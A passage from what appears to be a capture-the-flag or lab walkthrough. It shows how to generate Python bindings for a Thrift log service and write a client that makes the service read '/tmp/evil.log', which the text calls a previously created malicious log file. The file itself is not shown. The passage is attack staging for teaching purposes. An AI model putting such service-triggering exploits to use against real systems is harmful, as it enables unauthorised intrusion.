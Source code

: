 <br/><br/>
create the same .thrift file in our local machine to manage the log file
<br/><br/>
![image.png]({{ '/assets/images/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e_image_17.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e_image_18.png' | relative_url }})
<br/><br/>
```bash
#This will create necessary python files to invoque and implement the service
thrift -r --gen py log_service.thrift
```
<br/><br/>
![image.png]({{ '/assets/images/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e_image_19.png' | relative_url }})
<br/><br/>
Now make the python script that will trigger the malicious log file created before
<br/><br/>
![image.png]({{ '/assets/images/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e_image_20.png' | relative_url }})
<br/><br/>
```bash
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/evil.log"
        
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
    
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```
<br/><br/>
![image.png]({{ '/assets/images/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e/df542b02-08c3-4a94-b62c-dc2fbb999130-export-b1aed7d6-3b2b-4b59-b684-2232b523086e_image_21.png' | relative_url }})
<br/><br/>